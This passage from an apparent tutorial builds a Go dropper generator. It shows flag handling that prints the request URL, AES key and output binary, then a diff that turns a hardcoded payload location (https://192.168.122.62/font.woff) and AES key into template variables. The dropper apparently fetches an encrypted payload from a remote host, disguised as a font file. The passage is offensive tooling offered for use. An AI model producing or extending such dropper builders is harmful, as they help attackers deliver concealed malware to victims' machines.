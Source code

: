 ``` go
	}

	fmt.Printf("[+] Request: %s\n", opt.Url)
	fmt.Printf("[+] AES Key: %s\n", opt.Key)
	fmt.Printf("[+] Binary : %s\n", opt.Save)
}
```

This will be how it looks like

![flag](flag.png)

### Template

We have our `url` and `key` , next is to write them into previous `main.go`. To do this, we need `html/template` library to help us

Create a new folder and copy previos `main.go` into here

```
root@ubuntu:~/Documents/dropper# mkdir template
root@ubuntu:~/Documents/dropper# cp ../blogcode/main.go template/main.tmpl
root@ubuntu:~/Documents/dropper# tree
.
├── go.mod
├── go.sum
├── main.go
└── template
    └── main.tmpl
```

Change two lines of `main.tmpl`, this format will be recognized the `template` library we use, it will search for `Url` and `Key` variable the replace them with our input

```
- url := "https://192.168.122.62/font.woff"
- key := []byte("sAYx2sgB3QglfexI")
=>
+ url := "{{ .Url }}"
+ key := []byte("{{ .Key }}")
```
